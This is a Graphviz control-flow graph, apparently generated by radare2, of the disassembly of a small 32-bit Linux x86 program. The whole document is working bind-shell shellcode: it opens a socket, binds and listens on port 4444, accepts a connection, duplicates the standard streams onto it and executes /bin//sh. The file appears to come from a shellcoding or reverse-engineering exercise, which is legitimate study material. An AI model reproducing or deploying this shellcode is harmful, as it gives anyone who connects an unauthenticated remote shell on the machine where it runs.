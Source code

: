 digraph code {
	graph [bgcolor=azure fontsize=8 fontname="Courier" splines="ortho"];
	node [fillcolor=gray style=filled shape=box];
	edge [arrowhead="normal"];
	"0x08048060" -> "0x080480a2" [color="#005f87"];
	"0x08048060" [URL="entry0/0x08048060", fillcolor="palegreen",color="#e03030", fontname="Courier",label=";-- section..text:\l;-- _start:\l;-- eip:\l(fcn) entry0 102\l  entry0 ();\l0x08048060      xor  eax, eax      ; [01] -r-x section size 102 named .text\l0x08048062      mov  ebx, eax\l0x08048064      mov  ecx, eax\l0x08048066      mov  edi, eax\l;-- socket:\l0x08048068      mov  al, 0x66      ; 'f' ; 102\l0x0804806a      inc  bl\l0x0804806c      push ecx\l0x0804806d      push ebx\l0x0804806e      push 2             ; 2\l0x08048070      mov  ecx, esp\l0x08048072      int  0x80\l;-- bind:\l0x08048074      mov  esi, eax\l0x08048076      mov  al, 0x66      ; 'f' ; 102\l0x08048078      pop  ebx\l0x08048079      pop  edi\l0x0804807a      xor  edx, edx\l0x0804807c      push edx\l0x0804807d      push 0x5c11\l0x08048081      push bx\l0x08048083      push 0x10          ; 16\l0x08048085      push ecx\l0x08048086      push esi\l0x08048087      mov  ecx, esp\l0x08048089      int  0x80\l;-- listen:\l0x0804808b      mov  al, 0x66      ; 'f' ; 102\l0x0804808d      mov  bl, 4\l0x0804808f      pop  edx\l0x08048090      int  0x80\l;-- accept:\l0x08048092      xor  eax, eax\l0x08048094      push eax\l0x08048095      push eax\l0x08048096      mov  al, 0x66      ; 'f' ; 102\l0x08048098      mov  bl, 5\l0x0804809a      push edx\l0x0804809b      mov  ecx, esp\l0x0804809d      int  0x80\l;-- duplicate:\l0x0804809f      xchg eax, ebx\l0x080480a0      xor  ecx, ecx\l"]
	"0x080480a2" -> "0x080480a2" [color="#5f8700"];
	"0x080480a2" -> "0x080480ad" [color="#e03030"];
	"0x080480a2" [URL="entry0/0x080480a2", fillcolor="white",color="#e03030", fontname="Courier",label=";-- dup2:\l0x080480a2      mov  al, 0x3f      ; '?' ; 63\l0x080480a4      int  0x80\l0x080480a6      inc  cl\l0x080480a8      cmp  ecx, 3        ; 3\l0x080480ab      jne  loc.dup2\l"]
	"0x080480ad" [URL="entry0/0x080480ad", fillcolor="white",color="#e03030", fontname="Courier",label=";-- execsh:\l0x080480ad      xor  eax, eax\l0x080480af      push eax\l0x080480b0      push 0x68732f6e    ; 'n/sh'\l0x080480b5      push 0x69622f2f    ; '//bi'\l0x080480ba      mov  ebx, esp\l0x080480bc      push eax\l0x080480bd      mov  edx, esp\l0x080480bf      push ebx\l0x080480c0      mov  ecx, esp\l0x080480c2      mov  al, 0xb       ; 11\l0x080480c4      int  0x80\l"]
}
